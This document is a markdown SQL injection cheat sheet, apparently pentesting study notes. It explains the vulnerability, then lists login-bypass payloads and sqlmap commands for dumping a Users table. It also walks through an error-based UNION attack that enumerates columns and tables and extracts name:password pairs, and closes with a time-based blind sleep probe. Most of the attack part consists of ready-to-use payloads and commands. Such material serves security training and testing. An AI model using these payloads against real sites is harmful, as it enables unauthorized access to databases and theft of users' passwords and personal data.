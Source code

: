 # SQL Injection

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

* Passwords.
* Credit card details.
* Personal user information.

Imagine a shopping application that displays products in different categories. When the user clicks on the **Gifts** category, their browser requests the URL:

`https://insecure-website.com/products?category=Gifts`

This causes the application to make a SQL query to retrieve details of the relevant products from the database:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

The restriction `released = 1` is being used to hide products that are not released. We could assume for unreleased products, `released = 0`.

The application doesn't implement any defenses against SQL injection attacks. This means an attacker can construct the following attack, for example:

`https://insecure-website.com/products?category=Gifts'--`

This results in the SQL query:

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

**Good tool:** [https://sqlmap.org/](https://sqlmap.org/)

You can capture the request using burp suite, and save the request in a file. Then your run:

`sqlmap -r request.txt`

We can dump the database and the table, i.e.:

`sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users`

**Manual login bypass**:

```
' or '1'='1
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

### Error-based SQLi

If we manage to find an error-message after a broken SQL query, we can use that to try to map out the database structure.

For example:

```
http://example.com/photoalbum.php?id=1
```

#### Step 1: Add a ' or '':

So first we should try to break the SQL syntax by adding a `'`. We should first ad a `'` or a `"`.

```
http://example.com/photoalbum.php?id=1'
```

If the page then returns a blank page or a page with a SQL error we know that the page it vulnerable.

#### Step 2: Enumerate columns:

So in order to enumerate the columns of a table we can use the **order by** statement.

**Order by 1** means sort by values of the first column from the result set. **Order by 2** means sort by values of the second column from the result set. So it is basically just a tool to order the data in a table. But we can use it to find out how many columns a table has. Because if we do **order by 10** when there really only is 9 columns SQL will throw an error. And we will know how many columns the table has.

```
# No error
http://example.com/photoalbum.php?id=1 order by 9

# Error
http://example.com/photoalbum.php?id=1 order by 10
```

To enumerate columns you can also use **union select** of **null** values, and if the number of null values provided in injection matches the number of columns in the database you should not receive an error:

```
# Example: Database has 3 columns
# No error
http://example.com/photoalbum.php?id=1' union select NULL,NULL,NULL--

# Error
http://example.com/photoalbum.php?id=1' union select NULL,NULL--
```

We use `NULL` as the values returned from the injected `SELECT` query because the data types in each column must be compatible between the original and the injected queries. `NULL` is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

#### Step 3: Find space to output DB:

Now we need to know which columns are being outputted on the webpage. It could be that not all of the data from the database is worthwhile to output, so maybe only column 1 and 3 are being outputted to the website.

```
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,5,6,7,8,9
```

For all the columns that exists. This will return the numbers of the columns that are being outputted on the website. Take note of which these columns are.

#### Step 4: Start enumerating the database:

Now we can use that field to start outputting data. For example if column number five has been visible in step 3, we can use that to output the data.

Here is a list of data we can retrieve from the database. Some of the syntaxes may difference depending on the database engine (MySQL, MSSQL, Postgres):

```
# Get username of the SQL user
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

# Get version
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

# Get all tables
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'

# Get content from the users-table. From columns name and password. The 0x3a (:) only serves to create a delimitor between name and password
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,password),6,7,8,9 FROM users
```

### Blind SQL injection:

We say that it is blind because we do not have access to the error log.

#### Using sleep:

Since we do not have access to the logs we do not know if our commands are syntaxically correct or not. To know if it is correct or not we can however use the sleep statement.

```
http://example.com/photoalbum.php?id=1-sleep(4)
```

If the page loads for 4 extra seconds we know that the database is processing our **sleep()** command.
